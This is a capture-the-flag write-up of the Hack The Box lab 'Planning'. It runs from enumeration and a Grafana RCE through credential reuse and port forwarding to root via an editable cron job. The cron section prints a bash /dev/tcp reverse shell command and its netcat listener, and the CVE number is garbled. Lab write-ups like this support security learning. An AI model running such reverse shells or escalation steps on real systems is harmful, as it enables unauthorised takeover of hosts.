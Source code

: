 ```yaml
---
title: HTB Lab Writeup - "Planning"
description: A writeup concerning the Hack The Box lab "Planning" 
date: '2025-06-10'
categories:
    - HTB
    - Cron-Job-Abuse
    - OSINT
    - Subdomain brute forcing
    - Local services
published: True
---
```



## Table of Contents


## Initial Enumeration

I began by running an `nmap` scan of the target machine:

```bash
sudo nmap 10.10.11.68 -sC -sV
```


![Screenshot 2025-06-09 234205.png](/Screenshot%202025-06-09%20234205.png)
This revealed two open ports:

- **Port 22 (SSH)**
- **Port 80 (HTTP)**

I mapped `planning.htb` to the target IP via `/etc/hosts` to browse the site properly.

---

## Web Application Analysis

&nbsp;

![Screenshot 2025-06-09 234443.png](/Screenshot%202025-06-09%20234443.png)


---
The landing page at `http://planning.htb` had multiple subpages. I inspected user registration and forms manually and with **ZAP** to identify potential vulnerabilities. Notably, I found:

- A bug in the phone number input field: overly long input caused a **500 Internal Server Error**.
- Misconfigured HTTP verbs: GET requests were accepted on POST-defined endpoints, but they were not exploitable.

After exhausting client-side attacks, I pivoted back to **directory and subdomain enumeration**.

---

## Subdomain Discovery – Grafana

During enumeration, I identified a subdomain: `grafana.planning.htb`. After updating `/etc/hosts`, I accessed a **Grafana login portal**.
Using the initial credentials provided in the lab instructions, I successfully logged in.

![SubdomainTestshtb.png](/SubdomainTestshtb.png)
![grafana.htb.png](/grafana.htb.png)


---

## Grafana 11.0.0 RCE Exploit

The Grafana instance was running **version 11.0.0**, which has a known **Remote Code Execution** vulnerability. Using the exploit (CVE-2024-2024–9264), I achieved **RCE** and obtained a reverse shell by base64 encoding a payload and ended up inside a **Docker container**.

![Screenshot 2025-06-10 190036.png](/Screenshot%202025-06-10%20190036.png)
![Screenshot 2025-06-10 190153.png](/Screenshot%202025-06-10%20190153.png)


---

## Docker Container Enumeration

Within the container, I attempted several Docker escape techniques (e.g., mounting the host file system or abusing Docker capabilities), but none succeeded.
Running `linpeas.sh`, I found **environment variables** containing another set of credentials.
![Screenshot 2025-06-10 201110.png](/Screenshot%202025-06-10%20201110.png)


---

## SSH Access to Host Machine

The credentials worked on the host system, granting access via SSH as the user **enzo**.

```bash
ssh enzo@10.10.11.68
```
![Got into the actual box.png](/Got%20into%20the%20actual%20box.png)
With user-level access, I ran `linpeas` again to analyze privilege escalation vectors.

---

## Deeper Privilege Escalation Recon

Initial attempts included:

- Trying to exploit **Polkit (PwnKit)** — ruled out due to missing `pkexec`.
- Checking for writable services, binaries, and SUID bits — no success.
- Observing several localhost-bound services with `linpeas`, including:

```bash
127.0.0.1:8000
127.0.0.1:3000
```
![openports.png](/openports.png)
This prompted **local port forwarding** to inspect those services.

---

## Local Web Service on Port 8000 – Cron UI

Using `ssh -L`, I forwarded port 8000:

```bash
ssh -L 8000:127.0.0.1:8000 enzo@10.10.11.68
```

This revealed a **Cron Job Management Web Interface**. Previously, I had found login credentials stored in a `cron.db` file. These credentials allowed me to log into the UI.

---
![Screenshot 2025-06-10 221754.png](/Screenshot%202025-06-10%20221754.png)
## Cron Job Exploitation for Root Access

Inside the UI, a cron job named **Grafana backup** was configured to run daily as root. I edited this job to:

```bash
bash -c "bash -i >& /dev/tcp/<My-IP>/4444 0>&1"
```
![CronJobManip.png](/CronJobManip.png)
After setting up a listener:

```bash
nc -lvnp 4444
```

I received a **root reverse shell** once the cron job executed.

---

## Final Step – Root Flag

With root access, I read the final flag:
![rooting.png](/rooting.png)

---

## Lessons Learned

- **Overlooked vectors** like internal-only services (`127.0.0.1`) can contain crucial components (cron UI).
- **Privilege escalation via cron** remains a reliable vector when cron UIs or scripts are writable or misconfigured.
- **Staying organized** and revisiting old findings (like credentials or hidden services) is crucial when paths feel exhausted.



